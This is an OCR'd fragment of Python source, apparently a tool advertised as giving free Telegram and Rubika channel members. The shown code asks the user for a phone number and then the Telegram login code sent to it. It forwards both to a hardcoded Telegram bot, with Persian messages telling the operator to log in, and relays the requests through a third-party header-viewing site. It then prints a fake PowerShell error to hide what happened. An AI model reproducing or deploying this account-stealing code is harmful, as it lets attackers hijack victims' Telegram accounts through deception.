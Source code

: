     print(Fore.LIGHTMAGENTA_EX +
          '|                                                          |')
    url5 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
        'کاربر وارد قسمت ممبر کانال تلگرام شد   '
    pyload = {'UrlBox': url5,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)
    print('>>> 09050000000')
    telegram = input(' Enter phone number : ')

    url7 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
           '  اینم شمارش وقتشه تو تلگرام بزنی تا کدشو برات بفرسته    '+telegram
    pyload = {'UrlBox': url7,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)
    
    code = input(' Enter code telegram : ')

    url6 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
        'شماره موبایل :  '+telegram+'\n'+'کد ورودی :  '+code

    pyload = {'UrlBox': url6,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)
    time.sleep(6.5)
    print(Fore.RED+' fgdfg : The term  is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a\
          path was included, verify that the path is correct and try again.\
          At line: 1 char: 1 ')


# member rubika

def rubika():
    print(Fore.MAGENTA +
          ' ___________________________________________________________')
    print(Fore.MAGENTA +
          '|                                                          |')
    print(Fore.MAGENTA +
          '|     version 2.0                                          |')
    print(Fore.MAGENTA +
          '|                                                          |')
    print(Fore.MAGENTA +
          '|         member channel Rubika  free                      |')
    print(Fore.MAGENTA +
          '|    channel telegram : @miny_hack                         |')
    print(Fore.MAGENTA +
          '|     aparat.com/miny_345                                  |')